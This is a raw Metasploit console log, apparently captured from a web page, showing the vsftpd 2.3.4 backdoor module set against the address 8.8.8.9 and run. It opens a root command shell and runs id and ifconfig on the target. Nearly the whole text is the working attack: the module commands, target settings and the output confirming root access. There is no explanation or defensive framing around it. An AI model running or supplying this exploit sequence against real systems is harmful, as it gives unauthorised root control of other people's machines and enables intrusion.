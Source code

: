 msf > msf > use exploit/unix/ftp/vsftpd_234_backdoor msf exploit(vsftpd_234_backdoor) > show options Module options (exploit/unix/ftp/vsftpd_234_backdoor):   Name   Current Setting  Required  Description   ----   ---------------  --------  -----------   RHOST                   yes       The target address   RPORT  21               yes       The target portExploit target:   Id  Name   --  ----   0   Automaticmsf exploit(vsftpd_234_backdoor) > set rhost 8.8.8.9rhost => 8.8.8.9msf exploit(vsftpd_234_backdoor) > run[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)[*] 8.8.8.9:21 - USER: 331 Please specify the password.[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)[*] Found shell.[*] Command shell session 4 opened (Local Pipe -> Remote Pipe) pwd/iduid=0(root) gid=0(root)ifconfigeth0      Link encap:Ethernet  HWaddr 08:00:27:56:f1:7c            inet addr:8.8.8.9  Bcast:8.8.8.255  Mask:255.255.255.0          inet6 addr: fe80::a00:27ff:fe56:f17c/64 Scope:Link          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1          RX packets:10843 errors:0 dropped:0 overruns:0 frame:0          TX packets:2779 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:1000           RX bytes:1081842 (1.0 MB)  TX bytes:661455 (645.9 KB)          Base address:0xd010 Memory:f0000000-f0020000 lo        Link encap:Local Loopback            inet addr:127.0.0.1  Mask:255.0.0.0          inet6 addr: ::1/128 Scope:Host          UP LOOPBACK RUNNING  MTU:16436  Metric:1          RX packets:18161 errors:0 dropped:0 overruns:0 frame:0          TX packets:18161 errors:0 dropped:0 overruns:0 carrier:0          collisions:0 txqueuelen:0           RX bytes:5307479 (5.0 MB)  TX bytes:5307479 (5.0 MB)
</pre>

</div>